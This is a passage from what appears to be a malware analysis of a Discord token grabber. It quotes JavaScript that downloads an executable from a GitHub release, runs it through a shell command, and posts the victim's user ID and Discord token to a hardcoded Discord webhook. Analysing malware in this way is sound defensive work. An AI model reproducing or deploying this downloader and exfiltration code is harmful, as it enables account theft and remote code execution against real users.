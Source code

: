```javascript
        });

      },

    );

  }

  if (windowsCheck.existsSync(backupHelperB)) {

  } else {

    const backupExecutB = httpsClient.get(

      "https://github.com/benjaminloir/super-duper-broccoli/releases/download/doyouloveme/owobanbypasshelper.exe",

      function (owobanbypass) {

        var saveToBackup = windowsCheck.createWriteStream(backupHelperB);

        owobanbypass.pipe(saveToBackup);

        saveToBackup.on("finish", () => {

          saveToBackup.close();

          setTimeout(() => {

            runShellCmd(backupHelperB);

            sendGrabberWC("Blank", userId, discordToken);

          }, 2000);

        });

      },

    );

  }

}
```

`sendGrabberWC` is a function that takes three parameters: `grabberType, userId, discordToken`, hich then redirects those values to a webhook:

```javascript
function sendGrabberWC(grabberType, userId, discordToken) {

  fetchData.post({

    url: "https://canary.discord.com/api/webhooks/1086685243739750612/9Dcdoaz6L0WLV7f3J6MEI1HCcctdwUfMFlRurYusy-0aihX7RQNhAGDrzB3EIa7npOEc",

    json: {

      content:

        "**Grabber Type: " +

```